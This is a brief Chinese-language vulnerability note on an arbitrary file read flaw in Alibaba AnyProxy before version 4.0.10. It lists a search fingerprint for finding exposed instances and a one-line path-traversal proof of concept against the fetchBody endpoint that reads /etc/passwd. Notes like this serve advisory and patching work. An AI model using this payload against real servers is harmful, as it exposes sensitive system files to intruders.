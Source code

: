 # 

# Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

```
Alibaba AnyProxy < 4.0.10
```

## 网络测绘

```
"anyproxy"
```

## 漏洞复现

页面如下

![](./images/202202102008909.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```



![](./images/202202102008683.png)


